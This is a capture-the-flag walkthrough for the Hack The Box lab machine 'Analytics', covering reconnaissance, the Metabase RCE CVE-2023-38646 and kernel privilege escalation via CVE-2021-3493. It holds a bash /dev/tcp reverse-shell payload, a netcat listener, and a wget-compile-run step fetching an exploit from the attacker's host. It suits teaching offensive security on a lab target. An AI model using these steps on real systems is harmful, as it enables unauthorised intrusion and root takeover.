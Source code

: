 # HTB Machine Walkthrough: Analytics

  

---
> [!IMPORTANT]
> **Please use this as a hint or guide if you're blocked at some point of this machine. I make these files for myself and to help some friends that are also doing these machines.**

---

> [!NOTE]
> **Try to get as far as you can by yourself or you will never learn to solve machines alone. Hope you the best and happy hacking <3.**
---

  

## 1. Fast Nmap Scan on the Provided IP

Start by scanning all ports to identify the open ones:

```bash
nmap -sS -p- --min-rate 5000 $machine_ip -vvv -oN nmap.txt
```

This reveals ports 22 (SSH) and 80 (HTTP) are open. ( I try to save the scan results just in case i need something of it later )

## 2. Recognition


Perform a service detection scan to identify versions and services:

```bash
nmap -p22,80 -sCV $machine_ip -vvv -oN serv_recon.txt
```

The results show that port 80 hosts an `nginx/1.18.0` server that redirects to `http://analytical.htb/`.

To discover subdomains, use FFUF:

```bash

ffuf -u  http://$machine_ip -H "Host: FUZZ.analytical.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac

```

A subdomain `data.analytical.htb` is identified, which reveals a Metabase login page when accessed.

  

## 3. Exploit Phase

  

### Exploiting CVE-2023-38646

  

Metabase is vulnerable to a pre-authenticated remote code execution vulnerability.

Retrieve the `setup-token` using the API endpoint:

```bash

curl http://data.analytical.htb/api/session/properties -s | jq -r '."setup-token"'

```
Prepare a reverse shell payload:

```bash

echo 'bash -i >& /dev/tcp/$YourMachine_IP/$NC_ListenerPort 0>&1' | base64

```
Start a netcat listener to capture the reverse shell:

```bash

nc -lnvp $NC_ListenerPort

```

Use Burp Suite or curl to send a crafted POST request to exploit the vulnerability. This provides access as the `metabase` user in a Docker container.

  

## 4. Privilege Escalation to "metalytics"

Inspect environment variables to find credentials (linpeas also works) :
```bash
env
```

The variables reveal credentials for the user `metalytics`. Use SSH to log in:
```bash
ssh  metalytics@$machine_ip
```
Now as user, retrieve and submit the user flag
```bash
cat user.txt
```
## 5. Privilege Escalation to Root

Check the kernel version for known vulnerabilities:
```bash
uname  -r
```

This machine results vulnerable to [CVE-2021-3493](https://github.com/briskets/CVE-2021-3493/tree/main) so you just have to get into the repository and follow the steps to take advantage of this vector.
  

On your local machine open a simple http server with python so you can send the file to the target:

```bash
python3  -m  http.server  8080
```

  

On the target machine, get the expoit, compile it with gcc and execute it:

```bash
wget  http://$YourMachine_IP:8080/exploit.c

gcc  exploit.c  -o  exploit

./exploit
```
Now you should be root user, now just retrieve the root flag and submit it.

```bash

cat  /root/root.txt

```

  

---

**Congratulations: Machine completed**

---
